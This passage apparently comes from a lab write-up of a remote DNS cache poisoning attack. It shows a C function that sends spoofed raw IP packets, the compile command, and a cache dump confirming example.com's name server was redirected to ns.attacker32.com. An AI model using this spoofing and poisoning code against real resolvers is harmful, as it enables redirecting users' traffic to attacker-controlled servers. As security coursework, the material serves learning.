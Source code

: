 ```c
 *    pkt_size: the size of the buffer.
 * */
void send_raw_packet(char * buffer, int pkt_size)
{
  struct sockaddr_in dest_info;
  int enable = 1;

  // Step 1: Create a raw network socket.
  int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

  // Step 2: Set socket option.
  setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
       &enable, sizeof(enable));

  // Step 3: Provide needed information about destination.
  struct ipheader *ip = (struct ipheader *) buffer;
  dest_info.sin_family = AF_INET;
  dest_info.sin_addr = ip->iph_destip;

  // Step 4: Send the packet out.
  sendto(sock, buffer, pkt_size, 0,
       (struct sockaddr *)&dest_info, sizeof(dest_info));
  close(sock);
}
```

We then compile the C script by doing:

```
gcc -o attacker attack.c
```

And run the attack! After a small amount of time, we check the Local DNS server's cache to see whether the attack was successful or not. We can do that by dumping the DNS cache to a file and finding the word "attacker", because we know the attack was successful if there's a record indicating that the name server for `example.com` is `ns.attacker32.com`:

```
root@eca5daa85ebc:/volumes# rndc dumpdb -cache && grep attacker /var/cache/bind/dump.db
ns.attacker32.com.      615587  \-AAAA  ;-$NXRRSET
; attacker32.com. SOA ns.attacker32.com. admin.attacker32.com. 2008111001 28800 7200 2419200 86400
example.com.            777577  NS      ns.attacker32.com.
; ns.attacker32.com [v4 TTL 1787] [v6 TTL 10787] [v4 success] [v6 nxrrset]
```

And indeed that's what happens! Also, we can check the success of the attack by sniffing the packets going through the network and finding a packet whose destination is `10.9.0.153` that corresponds to the malicious DNS server. If this happens, it means that while the attack is being performed, the DNS queries for random domains are already being redirected to the `ns.attacker32.com` name server, meaning we were able to succeed:

<figure align="center">